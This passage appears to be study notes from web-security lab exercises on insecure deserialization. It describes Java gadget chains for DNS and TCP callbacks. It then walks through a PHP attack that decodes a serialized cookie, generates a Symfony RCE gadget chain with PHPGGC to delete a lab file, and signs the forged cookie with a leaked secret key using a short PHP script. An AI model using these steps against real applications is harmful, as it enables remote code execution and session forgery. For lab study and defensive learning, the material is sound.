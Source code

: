Not all chains allow running arbitrary code. Some are useful for other things including:

- `URLDNS` triggers a DNS lookup. It does not rely on the target app using a specific vulnerable library in any known Java version. If you find a serialized object, try using the gadget chain to generate an object to trigger a DNS interaction with Collaborator.
- `JRMPClient` causes the server to try establishing a TCP connection to an IP address. May be useful in environments where all outbound traffic is firewalled, including DNS lookups. If the app responds immediately with a local IP, but hangs for external IP, it indicates it works as the server tried to connect externally.
# PHP Deserialization with Gadget Chains

Most languages have equivalent PoC tools. For PHP based sites, there is [PHP Generic Gadget Chains (PHPGGC)](https://github.com/ambionics/phpggc)

For example, try to enumerate the app and identify if there are any dependencies that the app is using. As an example, the cookie may be a base64-encoded token that can be decoded to:

```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJhc2lrNmI0cnh4ODl4ejI5OTQxd2p4bjRsZXpibnQwcSI7fQ==","sig_hmac_sha1":"515450de20486a723cb9767ebb9c2b9f217fc4bb"}
```

Attempt to decode the token further may show a PHP serialized object:

```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"asik6b4rxx89xz29941wjxn4lezbnt0q";}
```

Analyse the contents and attempt to modify the cookie such as changing the access token value and username and re-submit. If an error appears, analyse the error message as it may reveal certain things like:

- Location of interesting files
- Framework in use

>[!info]
>Try the "Engagement Tools" --> "Find Comments" option to search developer comments.

If the `phpinfo.php` page is available, it can leak a secret key being used. 

If the version is leaked during an error message such as `Symfony 4.3.6`, attempt to use PHPGGC to create a serialized object via a gadget chain and specifying the framework in use:

```bash
./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
```

To exploit if it's been signed, the following script can be used to sign it using the secret key (if found):

```php
<?php
$payload = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $payload . '","sig_hmac_sha1":"' . hash_hmac('sha1', $payload, $secretKey) . '"}');
echo $cookie;
?>
```

